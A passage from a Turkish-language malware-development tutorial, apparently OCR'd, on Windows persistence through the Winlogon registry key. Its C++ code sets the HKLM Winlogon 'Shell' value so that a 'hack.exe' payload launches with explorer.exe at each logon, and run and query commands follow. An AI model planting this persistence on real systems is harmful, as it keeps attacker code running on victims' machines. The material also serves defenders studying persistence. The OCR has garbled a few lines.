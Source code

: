 ![pers](./images/58/2022-06-12_14-59.png){width="80%"}    

Gördüğünüz gibi, her iki durumda da kötü amaçlı yazılım Windows kimlik doğrulaması sırasında çalıştırılacaktır.    

Ancak, burada ilginç bir nokta var. Örneğin, eğer aşağıdaki mantıkla kayıt defteri anahtarını güncellersek:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" /v 
    // "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, 
    REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Yani, kötü amaçlı yazılımımız `C:\Windows\System32\hack.exe` yerine `Z:...\hack.exe` yolunda bulunuyor.   

Çalıştırın:  

```powershell
.\pers.exe 
req query "HKLM\Software\Microsoft\Windows 
NT\CurrentVersion\Winlogon" /s
```
